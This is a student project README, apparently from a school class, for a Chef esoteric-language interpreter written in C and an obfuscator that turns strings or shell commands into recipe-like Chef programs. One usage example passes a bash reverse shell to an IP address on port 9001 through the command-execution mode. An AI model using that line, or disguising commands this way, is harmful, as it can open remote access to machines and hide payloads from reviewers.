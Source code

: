# The Caterers (Presentation)

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes."  
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used almost solely for data output—once items have been poured into the pans, they are not able to be removed

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`

Obfuscate takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"`
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'`
- `./obfuscate -x 'echo "Hello, world!"'`
- `./obfuscate -x 'bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1''`[^5]

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 256 or fewer distinct characters.[^6] Attempting to use it otherwise will throw an error.

### To interpret: `./interpret`

Interpret takes a file path followed by an optional flag and attempts to run it as a Chef file. If `-` is provided in lieu of a path, Interpret will attempt to read from the standard input. The only flag currently available is
- `-v`: Interpret will use *verbose* mode and print the intermediate, post-parsing steps of the file, allowing users to check that the file is at least being parsed correctly.

Sample usage:
- `./interpret recipes/factorial.chef`
- `./interpret download.txt -v`
- `cat recipes/souffle.chef | ./interpret -`
- `./obfuscate -p 'wow' | ./interpret - -v`

Watch out! Interpret is ONLY guaranteed to work on properly-formatted Chef programs using characters entirely within the ASCII set. Attempting to use it otherwise will throw an error or cause undefined behavior.[^7]

> [!IMPORTANT]
> This is not, in fact, strictly true. Our implementation of the Chef intrepreter features one nonstandard command of our own design. See [link!!]
> In addition, we've found that a great number of other interpreters allow (or require) nonstandard formatting (*e.g.* "the 1st mixing bowl", newlines as command separators, oven temperatures in degrees Fahrenheit, etc.) and as such will accept some technically incorrect formats.
> The "Serves" directive is mandatory, because the documentation is unclear.


[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
[^5]: That's a reverse shell to homer.stuy.edu on port 9001.
[^6]: It shouldn't be possible to use more than 256 distinct characters while staying in the 7-bit ASCII range, but you never know.
[^7]: It's not our problem, essentially.

